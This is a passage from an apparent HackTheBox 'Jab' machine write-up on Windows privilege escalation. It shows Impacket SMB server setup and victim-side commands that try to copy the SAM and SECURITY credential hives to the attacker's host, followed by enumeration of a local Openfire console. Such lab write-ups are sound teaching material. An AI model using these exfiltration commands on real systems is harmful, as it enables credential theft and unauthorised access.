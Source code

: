 It's time to privesc. Looking for possible backups of SAM and SYSTEM files, you will find something interesting.

![](img/jab30.png)

There appear to be backups of the SAM, SYSTEM, and SECURITY files in the "`C:\Windows\System32\config\RegBack\`" directory.

An SMB server was used (thanks to Impacket) and and the SAM, SECURITY and SYSTEM files are transferred to the victim machine.

Attacker side:

```shell
$ python3 examples/smbserver.py -smb2support tmp /home/kali/Desktop/htb/jab/files -username "admin" -password "admin"
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Victim side:

```shell
PS C:\Windows\System32\config\RegBack> net use Z: \\10.10.14.10\tmp /user:admin admin
The command completed successfully.
PS C:\Windows\System32\config\RegBack> cmd /c "copy SAM \\10.10.14.10\tmp\SAM"
        0 file(s) copied.
PS C:\Windows\System32\config\RegBack> cmd /c "copy SECURITY \\10.10.14.10\tmp\SECURITY"
        0 file(s) copied.
```

It seems that it is not possible to transfer files. One continues to search. Listening on port 9090 on localhost appears to be the Openfire web console.

```shell
PS C:\Program Files\Openfire\conf> netstat -ano | findstr /i listening | findstr 127.0.0.1
  TCP    127.0.0.1:53           0.0.0.0:0              LISTENING       2636
  TCP    127.0.0.1:9090         0.0.0.0:0              LISTENING       3168
  TCP    127.0.0.1:9091         0.0.0.0:0              LISTENING       3168
  
PS C:\Program Files\Openfire\conf> Get-Process -Id 3168

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
-------  ------    -----      -----     ------     --  -- -----------                                                  
   1168     107   613032     546716              3168   0 openfire-service
```
